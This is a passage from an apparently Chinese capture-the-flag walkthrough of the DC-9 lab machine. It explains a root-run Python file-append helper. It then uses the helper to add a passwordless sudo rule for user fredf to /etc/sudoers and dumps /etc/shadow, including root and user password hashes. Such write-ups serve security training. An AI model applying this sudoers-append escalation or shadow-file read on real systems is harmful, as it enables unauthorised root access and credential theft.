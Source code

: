     if len (sys.argv) != 3 :
        print ("Usage: python test.py read append")
        sys.exit (1)
    
    else :
        f = open(sys.argv[1], "r")
        output = (f.read())
    
        f = open(sys.argv[2], "a")
        f.write(output)
        f.close()
    ```
    ```
    
    - 如果参数数量不等于3（脚本名称和两个文件名），程序会打印用法提示并退出
    - 使用`open()`函数以只读模式打开第一个文件（`sys.argv[1]`），并将其内容读入变量`output`。
    - 打开第二个文件（`sys.argv[2]`）以附加模式（"a"）打开，并将从第一个文件读取的内容写入。
    
    思路：我们可以附加内容到 `/etc/sudoers` ,将当前用户`fredf` 附加`fredf ALL=(ALL) NOPASSWD: ALL` ****权限
    
7. 创建文件 `test`内容是 `fredf ALL=(ALL) NOPASSWD: ALL`
    
    ```python
    # nano test
     fredf ALL=(ALL) NOPASSWD: ALL
    ```
    
8. 执行二进制文件
    
    ```python
    fredf@dc-9:/tmp$ sudo /opt/devstuff/dist/test/test test /etc/sudoers
    ```
    
    测试是否拥有权限
    
    ```python
    fredf@dc-9:/tmp$ sudo cat /etc/shadow
    root:$6$lFbb8QQt2wX7eUeE$6NC9LUG7cFwjIPZraeiOCkMqsJ4/4pndIOaio.f2f0Lsmy2G91EyxJrEZvZYjmXRfJK/jOiKK0iTGRyUrtl2R0:18259:0:99999:7:::
    daemon:*:18259:0:99999:7:::
    bin:*:18259:0:99999:7:::
    sys:*:18259:0:99999:7:::
    sync:*:18259:0:99999:7:::
    games:*:18259:0:99999:7:::
    man:*:18259:0:99999:7:::
    lp:*:18259:0:99999:7:::
    mail:*:18259:0:99999:7:::
    news:*:18259:0:99999:7:::
    uucp:*:18259:0:99999:7:::
    proxy:*:18259:0:99999:7:::
    www-data:*:18259:0:99999:7:::
    backup:*:18259:0:99999:7:::
    list:*:18259:0:99999:7:::
    irc:*:18259:0:99999:7:::
    gnats:*:18259:0:99999:7:::
    nobody:*:18259:0:99999:7:::
    _apt:*:18259:0:99999:7:::
    systemd-timesync:*:18259:0:99999:7:::
    systemd-network:*:18259:0:99999:7:::
    systemd-resolve:*:18259:0:99999:7:::
    messagebus:*:18259:0:99999:7:::
    sshd:*:18259:0:99999:7:::
    systemd-coredump:!!:18259::::::
    mysql:!:18259:0:99999:7:::
    marym:$6$EC59.EO3fZXPPMVr$61TZ96DmGiYpTCyB02YdIl0Uvu82UnFMSxlZ5HcraYN.5sgJI/E028bxjZM5S2LwwN8LImSUxfz9fXckKfRdJ0:18259:0:99999:7:::